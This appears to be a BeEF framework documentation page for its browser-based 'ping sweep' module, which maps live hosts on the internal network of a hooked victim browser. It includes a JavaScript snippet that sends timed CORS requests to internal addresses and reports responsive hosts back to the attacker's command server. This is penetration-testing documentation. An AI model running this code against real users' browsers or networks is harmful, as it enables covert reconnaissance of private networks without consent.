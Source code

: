 ## Summary

* **Objective**: Perform a ping sweep of the network via Java
* **Authors**: bcoles
* **Browsers**: Firefox

* [Code](https://github.com/beefproject/beef/tree/master/modules/network/ping_sweep)

## Internal Working

Discover active hosts in the internal network of the hooked browser using JavaScript XHR.

Browser needs to support CORS (Cross Origin Resource Sharing)

Set the IP address range to 'common' to scan a list of common LAN addresses.

The default number of workers (3) should be sufficient. Increasing the number of workers is likely to result in false negatives due to hitting the browser's maximum connection cap.

```js
worker.queue('var start_time = new Date().getTime();' +
      'beef.net.cors.request(' +
        '"GET", "http://'+ip+':'+port+'/", "", '+timeout+', function(response) {' +
          'var current_time = new Date().getTime();' +
          'var duration = current_time - start_time;' +
          'if (duration < '+timeout+') {' +
            'beef.debug("[Ping Sweep] '+ip+' [" + duration + " ms] -- host is up");' +
            'beef.net.send("<%= @command_url %>", <%= @command_id %>, "ip='+ip+'&ping="+duration+"ms", beef.are.status_success());' +
          '} else {' +
            'beef.debug("[Ping Sweep] '+ip+' [" + duration + " ms] -- timeout");' +
          '}' +
      '});'
    );
```

## Screenshots

![ping sweep options](https://cloud.githubusercontent.com/assets/434827/14728907/6d5936aa-087c-11e6-9b21-dbdc5d68d3f5.png)

![ping sweep results](https://cloud.githubusercontent.com/assets/434827/14728928/9dd46084-087c-11e6-93a8-44406fc89a11.png)

## Feedback
